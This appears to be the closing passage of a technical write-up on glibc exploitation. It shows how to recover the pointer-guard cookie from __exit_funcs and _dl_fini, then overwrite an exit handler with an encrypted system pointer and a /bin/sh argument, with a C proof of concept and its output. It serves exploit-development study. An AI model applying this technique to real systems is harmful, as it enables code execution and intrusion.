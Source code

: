 What we've seen up to this point is really interesting. As a preamble, I can say that a common technique used in exploit development is to obtain a memory leak with some virtual address belonging to glibc and/or ld, allowing the calculation of the virtual address of the `__exit_funcs` function and `_dl_fini`, although the latter belongs to ld. By obtaining the encrypted and decrypted pointers, we can derive the cookie.

```python
In [9]: hex(ror64(0x5b75ba599d12cfac, 0x11) ^ 0x7ffff7fc9040)
Out[9]: '0x67d652452ad05ec9'
```

Obtaining the cookie allows us to encrypt any pointer, such as the one for the `system` function, and with a write primitive, overwrite the modified pointer. Additionally, by writing `/bin/sh` to `exit_function_list.fns[0].cxa.arg`, we can obtain a shell.

```c
    printf("ld = %p\n", ld_addr);
    printf("libc = %p\n", libc_addr);

    struct exit_function_list* exit_funcs_list = (struct exit_function_list*)(libc_addr + 0x21bf00);
    printf("__exit_funcs = %p\n", exit_funcs_list);

    uint64_t _dl_fini_addr = (uint64_t)(ld_addr + 0x5b040);

    //uint64_t cookie = (*(uint64_t*)(ld_addr + 0x8f040)) - 0x53b70;
    uint64_t cookie = (uint64_t)(ld_addr + 0x3c740 + 0x30);

    cookie = *(uint64_t*)cookie;
    printf("cookie = 0x%lx\n", cookie);

    uint64_t fn = (uint64_t)exit_funcs_list->fns[0].func.cxa.fn;
    printf("_dl_fini encrypted = 0x%lx\n", fn);
    printf("_dl_fini decrypted = 0x%lx\n", _dl_fini_addr);

    uint64_t cookie2 = decrypt(fn, _dl_fini_addr);
    printf("cookie2 = 0x%lx\n", cookie2);

    assert(cookie == cookie2);

    uint64_t ptr_enc = encrypt((uint64_t)system, cookie2);
    printf("ptr_enc 0x%lx\n", ptr_enc);
    printf("system %p\n", system);

    exit_funcs_list->fns[0].func.cxa.fn = (void*)ptr_enc;
    exit_funcs_list->fns[0].func.cxa.arg = "/bin/sh";

    // trigger system("/bin/sh");
    return 0;
```

```
$ ./a.out 
Mama am here!
ld = 0x723f9c2b5000
libc = 0x723f9c000000
__exit_funcs = 0x723f9c21bf00
ptr cookie 0x723f9c2f1770
cookie = 0x9702d9c5fe9e5e08
_dl_fini encrypted = 0x57f4c55ebc912e05
_dl_fini decrypted = 0x723f9c310040
cookie2 = 0x9702d9c5fe9e5e08
ptr_enc 0x57f4c536a6f12e05
system 0x723f9c050d70
$ echo 'pwn'
pwn
```

[1]: https://googleprojectzero.blogspot.com/2014/08/the-poisoned-nul-byte-2014-edition.html
[2]: https://binholic.blogspot.com/2017/05/notes-on-abusing-exit-handlers.html
[3]: https://elixir.bootlin.com/glibc/glibc-2.39/source/stdlib/exit.c#L135
[4]: https://elixir.bootlin.com/glibc/glibc-2.39/source/stdlib/exit.c#L35
[5]: https://elixir.bootlin.com/glibc/glibc-2.39/source/stdlib/exit.h
[6]: https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/unix/sysv/linux/x86_64/pointer_guard.h#L25
[7]: https://elixir.bootlin.com/glibc/glibc-2.39/source/stdlib/cxa_atexit.c#L52
[8]: https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/unix/sysv/linux/x86_64/pointer_guard.h#L29
[9]: https://elixir.bootlin.com/glibc/glibc-2.26/source/sysdeps/x86_64/nptl/tls.h#L70
[10]: https://elixir.bootlin.com/glibc/glibc-2.39/source/nptl/pthread_create.c#L63
[11]: https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/generic/ldsodefs.h#L303